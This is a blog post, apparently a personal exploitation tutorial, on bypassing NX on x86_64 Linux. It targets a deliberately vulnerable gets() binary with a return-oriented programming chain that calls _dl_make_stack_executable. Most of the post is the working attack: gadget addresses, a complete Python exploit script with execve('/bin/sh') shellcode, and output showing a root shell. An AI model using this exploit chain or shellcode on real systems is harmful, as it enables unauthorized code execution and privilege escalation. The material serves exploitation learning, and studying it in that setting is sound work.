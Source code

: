 ```yaml
---
layout: post
title: "[ROP] Ret to Stack"
categories: [pwn]
tags: [pwn, ROP]
description: How to bypass NX/ASLR protections using "ret to Stack" attack on a x64 Linux system.
---
```


Tools:
1. objdump

Binary protection:
1. Read Only relocations
2. No exec stack
3. No exec heap
4. ASLR

Compilation: Static

Architecture: x86_64

Operating System: Linux (Debian)

# 1. Vulnerable binary
For this exemple, I will take the same program as my last post.
```c
#include <stdio.h>

// gcc main.c -fno-stack-protector -Wl,-z,relro,-z,now,-z,noexecstack -static
int main()
{
  char buf[64];

  gets(buf);  // Never use this function !
  printf("%s", buf);
  return 0;
}
```

I will show you today an other method to exploit a buffer overflow thanks to a ROP. I find this method funny because despite the "no exec stack" protection, it permit to make the stack executable and so, execute a shellcode on it.

# 2. To begin
To do this exploit, we will use the "_dl_make_stack_executable" function.
The function look like that:
```nasm
$ objdump -D a.out | grep -A 20 "<_dl_make_stack_executable>"
000000000045fc30 <_dl_make_stack_executable>:
  45fc30:	48 8b 35 e9 54 25 00 	mov    0x2554e9(%rip),%rsi        # 6b5120 <_dl_pagesize>
  45fc37:	53                   	push   %rbx
  45fc38:	48 89 fb             	mov    %rdi,%rbx
  45fc3b:	48 8b 07             	mov    (%rdi),%rax
  45fc3e:	48 89 f7             	mov    %rsi,%rdi
  45fc41:	48 f7 df             	neg    %rdi
  45fc44:	48 21 c7             	and    %rax,%rdi
  45fc47:	48 3b 05 da 42 25 00 	cmp    0x2542da(%rip),%rax        # 6b3f28 <__libc_stack_end>
  45fc4e:	75 1f                	jne    45fc6f <_dl_make_stack_executable+0x3f>
  45fc50:	8b 15 2a 43 25 00    	mov    0x25432a(%rip),%edx        # 6b3f80 <__stack_prot>
  45fc56:	e8 15 21 fd ff       	callq  431d70 <__mprotect>
  45fc5b:	85 c0                	test   %eax,%eax
  45fc5d:	75 17                	jne    45fc76 <_dl_make_stack_executable+0x46>
  45fc5f:	48 c7 03 00 00 00 00 	movq   $0x0,(%rbx)
  45fc66:	83 0d a3 54 25 00 01 	orl    $0x1,0x2554a3(%rip)        # 6b5110 <_dl_stack_flags>
  45fc6d:	5b                   	pop    %rbx
  45fc6e:	c3                   	retq   
  45fc6f:	b8 01 00 00 00       	mov    $0x1,%eax
  45fc74:	5b                   	pop    %rbx
  45fc75:	c3                   	retq   
```

We can see two important things. First, the function take "\_\_libc\_stack_end" as single parameter and it encapsulate the mprotect function. (cf man mprotect) The third parameter of the mprotect function determine the memory access. (PROT_NONE \| PROT_READ \| PROT_WRITE \| PROT_EXEC) By default, the value is set to "O" for none access, so our goal will be to set this value to "7". (7 == rwx) To do this, we need to change the value of "\_\_stack\_prot" because it's the variable used by mprotect as third parameter.

So our payload will look like this:
padding + set \_\_stack\_prot to 7 + set RDI to \_\_libc\_stack\_end + execute \_dl\_make\_stack\_executable + push shellcode

# 3. The payload
I will not explain how to find the gadget, take a look at my last post if you don't now how to do it.
First, the \_\_stack\_prot address:
```bash
$ objdump -D a.out | grep "__stack_prot"
00000000006b3f80 <__stack_prot>:
```

Great. So our payload begin will be:
```python
payload = 'A'*72 # padding

payload += pack("<Q", 0x00000000004016b7) # pop rsi ; ret
payload += pack("<Q", 0x00000000006b3f80) # @ __stack_prot
payload += pack("<Q", 0x00000000004314ad) # pop rax ; ret
payload += pack("<Q", 0x0000000000000007) # PROT_EXEC|PROT_READ|PROT_WRITE|PROT_NONE
payload += pack("<Q", 0x000000000045f491) # mov QWORD PTR [rsi], rax ; ret
```

We also will need the address of the "\_\_libc\_stack\_end" variable and "\_dl\_make\_stack\_executable" function.
```bash
$ objdump -D a.out|egrep "__libc_stack_end|_dl_make_stack_executable"
...
000000000045fc30 <_dl_make_stack_executable>:
...
00000000006b3f28 <__libc_stack_end>:
...
```

And the payload part look like:
```python
payload += pack("<Q", 0x000000000040159b) # pop rdi ; ret
payload += pack("<Q", 0x00000000006b3f28) # @ __libc_stack_end
payload += pack("<Q", 0x000000000045fc30) # @ _dl_make_stack_executable
```

Well, we only have left to push the shellcode and test it ! 
The shellcode is a simply execve("/bin/sh", ...) on 30 bytes.
To push the shellcode:
```python
payload += pack("<Q", 0x000000000040fd8c) # push rsp ; ret
payload += shellcode
```

# 4. Exploitation
The whole payload look like:
```python
#!/usr/bin/env python2.7

from struct import pack

#
# Shellcode execve("/bin/sh", ["/bin/sh"], NULL) (30 bytes)
#

shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

payload = 'A'*72 # padding

payload += pack("<Q", 0x00000000004016b7) # pop rsi ; ret
payload += pack("<Q", 0x00000000006b3f80) # @ __stack_prot
payload += pack("<Q", 0x00000000004314ad) # pop rax ; ret
payload += pack("<Q", 0x0000000000000007) # PROT_EXEC|PROT_READ|PROT_WRITE|PROT_NONE
payload += pack("<Q", 0x000000000045f491) # mov QWORD PTR [rsi], rax ; ret

payload += pack("<Q", 0x000000000040159b) # pop rdi ; ret
payload += pack("<Q", 0x00000000006b3f28) # @ __libc_stack_end
payload += pack("<Q", 0x000000000045fc30) # @ _dl_make_stack_executable

payload += pack("<Q", 0x000000000040fd8c) # push rsp ; ret
payload += shellcode

print payload
```

The result is:
```bash
$ (python2.7 rop.py; cat) | ./a.out
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
```

Done.
